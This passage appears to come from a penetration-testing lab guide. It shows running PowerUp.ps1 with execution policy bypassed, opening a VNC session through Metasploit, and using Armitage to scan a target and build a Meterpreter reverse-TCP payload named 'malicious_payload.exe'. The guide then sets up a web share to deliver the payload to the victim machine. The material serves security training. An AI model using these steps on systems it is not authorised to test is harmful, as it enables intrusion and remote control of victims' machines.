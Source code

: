 - Run PowerUp.ps1:
   ```bash
   shell
   powershell -ExecutionPolicy Bypass -Command .\PowerUp.ps1; Invoke-AllChecks
   ```

- Exploit VNC Vulnerability:
   ```bash
   exit
   run vnc
   ```

- Access VNC Session:
   - Observe the opened VNC session.

Here, we exploited client-side vulnerabilities and established a VNC session using Metasploit.

---

#### Gain Access to a Remote System using Armitage

- [Armitage](https://github.com/r00t0v3rr1d3/armitage) is a scriptable red team collaboration tool for Metasploit that visualizes targets, recommends exploits, and exposes the advanced post-exploitation features in the framework. Using this tool, you can create sessions, share hosts, capture data, downloaded files, communicate through a shared event log, and run bots to automate pen testing tasks.
##### Steps

- In the Terminal window, type `service postgresql start` and press Enter to start the database service.
- Navigate to `Applications -> Pentesting Exploitation Tools -> Metasploit Framework -> Armitage` to launch the Armitage tool.

- Click on `Hosts` from the Menu bar and navigate to `Nmap Scan -> Intense Scan` to scan for live hosts in the network.

- The Input pop-up appears. Type a target IP address (e.g., 10.10.1.11) and click `OK`.

- After the completion of scan, a Message pop-up appears, click `OK`.

- Observe that the target host (10.10.1.11) appears on the screen.

- Now, from the left-hand pane, expand the payload node, and then navigate to `windows -> meterpreter`; double-click `meterpreter_reverse_tcp`.

- The `windows/meterpreter_reverse_tcp` window appears. Scroll down to the `LPORT` Option, and change the port Value to `444`. In the Output field, select `exe` from the dropdown options; click `Launch`.

- The Save window appears. Select `Desktop` as the location, set the File Name as `malicious_payload.exe`, and click the `Save` button.

- In the previous task, we already created a directory or shared folder (`share`) at the location (`/var/www/html`) with the required access permission. So, we will use the same directory or shared folder (`share`) to share `malicious_payload.exe` with the victim machine.

**Note:** If you want to create a new directory to share the `malicious_payload.exe` file with the target machine and provide the permissions, use the below commands:
- Type `mkdir /var/www/html/share` and press Enter to create a shared folder
- Type `chmod -R 755 /var/www/html/share` and press Enter
- Type `chown -R www-data:www-data /var/www/html/share` and press Enter
